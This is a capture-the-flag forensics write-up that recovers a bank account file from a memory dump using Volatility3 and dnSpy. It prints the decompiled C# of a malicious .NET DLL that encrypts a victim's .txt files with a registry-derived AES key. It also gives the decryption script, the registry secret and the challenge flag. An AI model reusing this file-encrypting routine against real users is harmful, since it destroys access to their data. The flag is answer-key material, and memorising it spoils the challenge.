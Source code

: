 # [ WriteUp/Notes ] Oh No My Computer  | Forensic - Dawg CTF 2025

## By: Haaloobim as [HCS](https://ctftime.org/team/70159)

## Description 
1. Scenario: 
As an Incident Response (IR) analyst, you've been contacted by the HR department regarding a recently terminated employee. Upon learning of their impending dismissal, the employee reportedly proceeded to hurl their workstation out the window from the 66th floor. Fortunately, no one was injured. Even more fortunately, HR anticipated trouble and notified you in advance. Acting quickly, you were able to capture a memory dump of the employee's machine with the encrypted file believed to contain the bank account information where funds were transferred. Can you recover the destination bank account details from the provided artifacts?<br />

2. Tools :
- [Volatility3](https://github.com/volatilityfoundation/volatility3)
- [dnSpy](https://github.com/dnSpy/dnSpy) 

## How to solve? 

- For this challenge, we are given a `.zip` file that contains memory dump files and an encrypted text file that likely contains the flag for this challenge. From these attachments, we can infer that our task is to identify the malware and figure out how the encryption works. -> [Download File](https://github.com/UMBCCyberDawgs/dawgctf-sp25/tree/main/Oh%20no%2C%20my%20computer!)

- To solve this challenge, we used **Volatility3** to analyze the memory dump. First, we ran the `pslist` and `cmdline` plugins to view all active processes and the commands they executed. However, we didn’t find anything suspicious — just normal Windows processes.

![](./src/pslist.png)

![](./src/cmd.png)

- At this point, we decided to use the `filescan` plugin to list all files captured in the memory dump. From there, we found something interesting located in the user's Desktop directory.

![](./src/desk.png)

- Normally, a folder like **Windows 7** should not be located on the Desktop, which raised our suspicion. So we decide to dump the `win7-x64.zip` using `dumpfiles` plugin and the `0x0x7ef72e60` physical address. 

![](./src/win7addr.png)

```sh
python3 vol.py -f <memory-file> -o <output-dir> windows.dumpfiles --physaddr 0x7ef72e60
```

- After dumping and extracting the `.zip` file, we found three suspicious files: `cma.exe`, `cma.dll`, and `cma.pdb`. After investigating each file using VirusTotal, we identified that `cma.dll` is the one we need to analyze further.

- By running the `file` command on `cma.dll`, we discovered that it is an `x86-64 Mono/.NET assembly`. Therefore, we used **dnSpy** to reverse engineer the DLL and analyze the encryption algorithm it implements.

![](./src/dns.png)

- So in that dnSpy, we know that the malware have 2 important function, `Main` and `QiDlvAfIm`:

```c#
private static void Main(string[] args)
{
	string ms = (string)Registry.GetValue("HKEY_LOCAL_MACHINE\\SECURITY\\Apple\\Sause", "sec", false);
	string[] files = Directory.GetFiles(".");
	foreach (string f in files)
	{
		string[] a2 = f.Split(".", StringSplitOptions.None);
		string t = a2[1];
		string[] array2 = a2;
		string t2 = array2[array2.Length - 1];
		bool flag = t.Equals(".txt") && !t2.Equals(".enc");
		if (flag)
		{
			byte[] fb = File.ReadAllBytes(f);
			byte[] sb = Encoding.UTF8.GetBytes(ms);
			sb = SHA256.Create().ComputeHash(sb);
			byte[] eb = Program.QiDlvAfIm(fb, sb);
			File.WriteAllBytes(f, eb);
		}
	}
}
```

```c#
public static byte[] QiDlvAfIm(byte[] fileBytes, byte[] init)
{
	byte[] result;
	using (MemoryStream memoryStream = new MemoryStream())
	{
		using (RijndaelManaged rijndaelManaged = new RijndaelManaged())
		{
			rijndaelManaged.KeySize = 256;
			rijndaelManaged.BlockSize = 128;
			Rfc2898DeriveBytes rfc2898DeriveBytes = new Rfc2898DeriveBytes(init, init, 1000);
			rijndaelManaged.Key = rfc2898DeriveBytes.GetBytes(rijndaelManaged.KeySize / 8);
			rijndaelManaged.IV = rfc2898DeriveBytes.GetBytes(rijndaelManaged.BlockSize / 8);
			rijndaelManaged.Mode = CipherMode.CBC;
			using (CryptoStream cryptoStream = new CryptoStream(memoryStream, rijndaelManaged.CreateEncryptor(), CryptoStreamMode.Write))
			{
				cryptoStream.Write(fileBytes, 0, fileBytes.Length);
				cryptoStream.Close();
			}
			result = memoryStream.ToArray();
		}
	}
	return result;
}
```

- In conclusion, this malware encrypts files that end with `.txt` but not those ending with `.enc`. Most importantly, it retrieves a value from the following registry path: `HKEY_LOCAL_MACHINE\\SECURITY\\Apple\\Sause`, which is used as the key and IV for the encryption.

- So, the first step is to locate the value from that registry path.

- Our first approach was to dump all the registry entries using the `filescan` plugin and analyze them using Registry Explorer, but it resulted in nothing because the file data at the dumped address couldn't be found.

- Our second approach was to dump `NTUSER.dat`, as it stores all the registry values modified by the user. However, similar to the previous approach, the data couldn't be found.

- Our final approach was to use the `windows.registry.printkey` plugin to print the captured registry directly from memory.


```sh
python3 vol.py -f <file>  windows.registry.printkey
```

![](./src/apple.png)

- So we know that `SECURITY\Apple` was captured in the memory and we can continue dumping the value of that registry. After this we need `--offset` and `--key` parameter to specify the exact registry that we wanna dump. 

- So the final command should looks like this: 

```sh
python3 vol.py -f <file>  windows.registry.printkey --offset 0xf8a000e97010 --key 'Apple\Sause'
```

![](./src/value.png)

- After we know the registry data, we just need to make the solve script to decrypt the encrypted file the code should be look like this: 

```py
import hashlib
from Crypto.Cipher import AES
from Crypto.Protocol.KDF import PBKDF2

REGISTRY_VALUE = "by3_by3_c0mput3r"
INPUT_FILE = "bank_account.txt.enc"
OUTPUT_FILE = "bank_account.txt"    

def decrypt_aes256cbc(encrypted_data, password_bytes):
    hashed = hashlib.sha256(password_bytes).digest()
    key_iv = PBKDF2(hashed, hashed, dkLen=32 + 16, count=1000)
    key = key_iv[:32]
    iv = key_iv[32:]

    cipher = AES.new(key, AES.MODE_CBC, iv)
    decrypted = cipher.decrypt(encrypted_data)

    pad_len = decrypted[-1]
    return decrypted[:-pad_len]

def main():
    password_bytes = REGISTRY_VALUE.encode("utf-8")

    try:
        with open(INPUT_FILE, "rb") as f:
            encrypted_data = f.read()

        decrypted = decrypt_aes256cbc(encrypted_data, password_bytes)

        with open(OUTPUT_FILE, "wb") as f:
            f.write(decrypted)

        print(f"[+] Decrypted: {INPUT_FILE} → {OUTPUT_FILE}")
    except Exception as e:
        print(f"[!] Failed to decrypt {INPUT_FILE}: {e}")

if __name__ == "__main__":
    main()
```

![](./src/bank.png)

#### Flag:
> Flag: `DawgCTF{R121145145_A00001966}`






